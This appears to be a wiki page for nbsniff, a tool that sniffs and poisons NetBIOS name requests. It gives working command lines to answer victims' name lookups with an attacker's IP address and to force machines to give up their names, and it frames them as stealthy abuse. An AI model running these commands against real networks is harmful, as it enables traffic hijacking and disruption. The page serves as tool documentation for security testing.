 ```yaml
---
title: 'Wiki: Nbsniff'
author: ron
layout: wiki
permalink: "/wiki/Nbsniff"
date: '2024-08-04T15:51:38-04:00'
---
```


## Intro

[nbsniff](nbsniff "wikilink") is designed to watch and poison NetBIOS name and registration requests. This lets a malicious user take over all names on a local network that aren\'t resolved by DNS. It can also force systems to relinquish their name at boot time if it\'s a name that the attacker wants.

## Usage

    Usage: ./nbsniff [options] <action>
     -h --help
        Help (this screen).
     -s --source <sourceip>
        The ip address to reply with when using --poison. Required for --poison.
     -n --name <name>
        The name to poison. If set, only requests containing this name will be
        poisoned.
     -p --port <port>
        Listen on a port instead of the default (137). Since requests are sent on
        UDP port 137, you likely don't want to change this.
     -u --username <user>
        Drop privileges to this user after opening socket (default: 'nobody')
     -w --wait <ms>
        The amount of time, in milliseconds, to wait for responses. Default: 500ms.
     -V --version
        Print version and exit.
    Actions (--sniff is always active):
     --sniff (default)
        Display all NetBIOS requests received. This is the default action.
     --poison [address]
        Poison NetBIOS requests by sending a response containing the --source ip
        whenever a name request from the address is seen. Requires --source to be
        set. If address isn't given, all targets are poisoned.
     --conflict [address]
        If this is set, when a system tries to register or renew a name, a conflict
        is returned, forcing the system to relinquish the name. If an address is
        given, only registratons/renewals from the address are replied to.

## Details

nbsniff listens on UDP port 137 by default. UDP/137 is used by Windows (and Samba) for the NetBIOS Name Service protocol. This protocol is used to resolve local names when DNS fails. For example, if you have a machine named WINDOWS2000 on the local network, you can run \"ping WINDOWS2000\" and it\'ll work. How? By a broadcast. The sequence of events are:

1.  Windows checks the local \'hosts\' file for an entry for \"WINDOWS2000\".
2.  Windows sends a DNS request to the default DNS server for \"WINDOWS2000\".
3.  Windows sends a DNS request to the default DNS server for \"WINDOWS2000.`<domain>`\".
4.  Windows broadcasts a NetBIOS name request to the local broadcast address.

The fourth point is the key \-- any box named \"WINDOWS2000\" that sees the NetBIOS name request responds saying \"I\'m here!\". nbsniff displays those requests. Now, how can we abuse them?

First, we have the \--poison argument. \--poison, by default, replies to every request with the given ip address (the address is given in \--source). So if you run:

    nbsniff --poison --source=1.2.3.4

Everybody NetBIOS name request will be responded to with 1.2.3.4.

If you want to be a little more stealthy, there are a couple extra options. \--name `<name>` can be used to respond only to requests containing a certain name. So, if you want to poison only requests containing \"windows\", you could run:

    nbsniff --poison --source=1.2.3.4 --name=windows

Note that it\'s not case sensitive.

Further, you can restrict poisoning to be against a certain address by giving the address as an argument to \--poison. Any request from the address will be responded to as usual. For example, if you want to only poison requests from 192.168.1.100, you can do this:

    nbsniff --poison=192.168.1.100 --source=1.2.3.4

After that, any request from 192.168.1.100 will be poisoned.

Now, what happens if there\'s actually a system on the local network named WINDOWS2000? Will it still respond to our requests?

The answer, unfortunately, is yes. If we\'re poisoning WINDOWS2000 with 1.2.3.4 and there\'s already a system on the network named WINDOWS2000, they will both respond:

    $ nbquery --nb=WINDOWS2000
    Creating a UDP socket.
    Sending query.
    ANSWER query: (NB:WINDOWS2000    <00|workstation>): success, IP: 1.2.3.4, TTL: 0s
    ANSWER query: (NB:WINDOWS2000    <00|workstation>): success, IP: 192.168.1.102, TTL: 300000s

In this case, the poisoned request arrived first. That won\'t always happen, be the case, though. It really comes down to a race. If you\'re lucky, you\'ll win.

The next question is, is there a way to cheat?

Of course there is! But, it\'s somewhat disruptive and causes an error message on the target machine.

The way we cheat, basically, is to tell any machines that try to claim a name that the name is already taken. This is done by using a \'conflict\' response, \--conflict. Like poison, you can pass a \--name argument to poison only certain names, and you can pass an address to \--conflict to only respond to that host.

Here is how you\'d respond to conflicts for 192.168.1.102 attempting to register WINDOWS2000, and respond with 1.2.3.4 if 192.168.1.100 tries to look it up:

    nbsniff --poison=192.168.1.100 --conflict=192.168.1.102 --name=WINDOWS2000 --source=1.2.3.4

Typically, though, you\'ll want to cast a broader net. This responds to every machine with a \'conflict\' and every name request with \'1.2.3.4\':

    nbsniff --poison --conflict --source=1.2.3.4

Once \'conflict\' is turned on, any machine on the local network who tries to claim a name will be forced to relinquish it. Machines claim names when they boot, so you\'ll have to wait for the machine to reboot (or force it to) to take over its name. Unfortunately, after receiving the conflict, the target machine displays a message saying \"A duplicate name exists on the network.\"

That\'s everything that nbsniff can do. Hope it helps!

And by the way, a great way to test the various features of nbsniff is by using [nbquery](nbquery "wikilink"). See its documentation for more info!
